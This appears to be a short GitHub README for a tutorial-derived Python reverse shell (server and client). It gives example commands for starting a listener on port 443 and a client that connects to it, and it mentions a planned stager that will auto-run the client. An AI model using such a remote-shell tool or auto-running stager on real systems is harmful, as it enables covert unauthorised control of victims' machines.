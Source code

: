 # BasicReverseShell
I followed a tutorial and came up with a slightly modified version of the Python server/client. See "desc.txt"


### How to use

- Server (example)
```
python3 server.py -i -H 0.0.0.0 -p 443 -b (1024 * 998) -s "<sep>" -t 5 -p "> "
```

- Client (example -- On a test machine but, the stager will auto run the client when the project is complete)
```
python3 client.py 127.0.0.1
```
